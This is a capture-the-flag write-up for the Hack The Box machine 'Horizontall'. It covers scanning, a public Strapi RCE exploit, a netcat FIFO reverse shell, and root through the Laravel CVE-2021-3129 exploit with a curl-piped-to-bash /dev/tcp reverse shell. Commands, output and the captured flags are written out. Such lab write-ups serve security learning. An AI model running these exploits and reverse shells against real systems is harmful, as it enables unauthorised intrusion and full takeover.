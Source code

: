 ```bash
ghost@localhost [11:34:02] [~/Documents/hacking/tj-null-boxes/horizontall] [master]
-> % export IP=10.10.11.105

ghost@localhost [11:37:16] [~/Documents/hacking/tj-null-boxes/horizontall] [master]
-> % export DOMAIN=http://horizontall.htb
```

# Scan

```bash
ghost@localhost [11:35:00] [~/Documents/hacking/tj-null-boxes/horizontall] [master]
-> % rustscan -a $IP -- -sC -sV
Open 10.10.11.105:22
Open 10.10.11.105:80

ghost@localhost [11:36:11] [~/Documents/hacking/tj-null-boxes/horizontall] [master]
-> % nmap -sC -sV -vvv -p 22,80 $IP

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDL2qJTqj1aoxBGb8yWIN4UJwFs4/UgDEutp3aiL2/6yV2iE78YjGzfU74VKlTRvJZWBwDmIOosOBNl9nfmEzXerD0g5lD5SporBx06eWX/XP2sQSEKbsqkr7Qb4ncvU8CvDR6yGHxmBT8WGgaQsA2ViVjiqAdlUDmLoT2qA3GeLBQgS41e+TysTpzWlY7z/rf/u0uj/C3kbixSB/upkWoqGyorDtFoaGGvWet/q7j5Tq061MaR6cM2CrYcQxxnPy4LqFE3MouLklBXfmNovryI0qVFMki7Cc3hfXz6BmKppCzMUPs8VgtNgdcGywIU/Nq1aiGQfATneqDD2GBXLjzV
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBIyw6WbPVzY28EbBOZ4zWcikpu/CPcklbTUwvrPou4dCG4koataOo/RDg4MJuQP+sR937/ugmINBJNsYC8F7jN0=
|   256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJqmDVbv9RjhlUzOMmw3SrGPaiDBgdZ9QZ2cKM49jzYB
80/tcp open  http    syn-ack nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# Port 80, horizontall.htb

Website got nothing, but looking through source code found obscured JS code that contains a domain `api-prod.horizontall.htb`.

## api-prod.horizontall.htb

Running go-buster on it gives few paths.

```bash
ghost@localhost [15:04:47] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % gobuster dir -u http://api-prod.$DOMAIN -k -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt
/admin                (Status: 200) [Size: 854]
/users                (Status: 403) [Size: 60]
/reviews              (Status: 200) [Size: 507]
```

There's an exploit I found from searchsploit for unauthorized RCE (https://www.exploit-db.com/exploits/50239).

In the add, it calls `admin/init` to check the Strapi version. By checking the version, I found out that it is running `3.0.0-beta.17.4`.
http://api-prod.horizontall.htb/admin/init

With that, running the exploit will return new credentials and console for blind RCE. The following netcat command gives reverse shell back.

```bash
ghost@localhost [16:51:21] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % python3 50239.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjYzOTIzMTAzLCJleHAiOjE2NjY1MTUxMDN9.k3si1Sv7DHZiO0Y0POSd9ylquNSHylADp4qsj-BNbdQ

$> rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.16.8 4444 >/tmp/f
[+] Triggering Remote code executin
[*] Rember this is a blind RCE don't expect to see output
```

```bash
ghost@localhost [17:01:41] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.105] 51012
/bin/sh: 0: can't access tty; job control turned off
strapi@horizontall:~/myapi$ id
uid=1001(strapi) gid=1001(strapi) groups=1001(strapi)
```

# user.txt

```bash
strapi@horizontall:~$ ls /home/
developer

strapi@horizontall:~$ ls /home/developer
composer-setup.php
myproject
user.txt

strapi@horizontall:~$ cat /home/developer/user.txt
dcf7ae49d0ad0643785fccad6b16e712
```

## adding SSH key

I generated SSH key and add it to the target machine so I can access the machine easily.

# Privilege escalation

There's something running at port 8000.

```bash
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      1882/node /usr/bin/
tcp        0      0 127.0.0.1:8000          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
```

## hidden process

When I call `ps -ef` I do not see service running at port 8000 because `hidepid` is set to 2. Setting that to 2 will hide other processes in the machine.

```bash
strapi@horizontall:~/myapi$ mount | grep hidepid
proc on /proc type proc (rw,nosuid,nodev,noexec,relatime,hidepid=2)
```

## port forwarding

```bash
ghost@localhost [10:55:37] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % ssh -i horizontall -L 8001:127.0.0.1:8000 strapi@10.10.11.105
```

## gobuster

```bash
ghost@localhost [10:59:01] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % gobuster dir -u http://localhost:8001 -k -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
Progress: 46 / 43008 (0.11%)
/profiles             (Status: 500) [Size: 616206]
```

## exploit

Going to the profile will gives Laravel error in debug mode. From googling, I learnt that there's an exploit for Laravel debug mode https://github.com/nth347/CVE-2021-3129_exploit).

A better explanation can also be found here (https://www.ambionics.io/blog/laravel-debug-rce).

```bash
ghost@localhost [11:12:46] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % python3 laravel.py http://localhost:8001 Monolog/RCE1 id
[i] Trying to clear logs
[+] Logs cleared
[i] PHPGGC not found. Cloning it
Cloning into 'phpggc'...
remote: Enumerating objects: 2962, done.
remote: Counting objects: 100% (508/508), done.
remote: Compressing objects: 100% (210/210), done.
remote: Total 2962 (delta 362), reused 308 (delta 283), pack-reused 2454
Receiving objects: 100% (2962/2962), 430.81 KiB | 743.00 KiB/s, done.
Resolving deltas: 100% (1234/1234), done.
[+] Successfully converted logs to PHAR
[+] PHAR deserialized. Exploited

uid=0(root) gid=0(root) groups=0(root)

[i] Trying to clear logs
[+] Logs cleared
```

The exploit works, so this time will be running for reverse shell. The following script will not works because of the bad character.

```bash
ghost@localhost [11:15:08] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % python3 laravel.py http://localhost:8001 Monolog/RCE1 "bash -C 'bash -i >& /dev/tcp/10.10.16.8/4445 0>&1'"
```

So first I create file called `root-shell` and serve with Python server.
```bash
bash -i >& /dev/tcp/10.10.16.8/4445 0>&1
```

Then run exploit as below.

```bash
ghost@localhost [11:36:45] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % python3 laravel.py http://localhost:8001 Monolog/RCE1 "curl 10.10.16.8/root-shell | bash"
[i] Trying to clear logs
[+] Logs cleared
[+] PHPGGC found. Generating payload and deploy it to the target
[+] Successfully converted logs to PHAR
[i] There is no output
[i] Trying to clear logs
```

# root.txt
```bash
ghost@localhost [11:14:10] [~/Documents/hacking/tj-null-boxes/horizontall] [master *]
-> % nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.105] 49272
bash: cannot set terminal process group (104397): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# id
uid=0(root) gid=0(root) groups=0(root)

root@horizontall:/home/developer/myproject/public# cat /root/root.txt
4d7e647a6a228bf8e8faac22f53dfddf
```
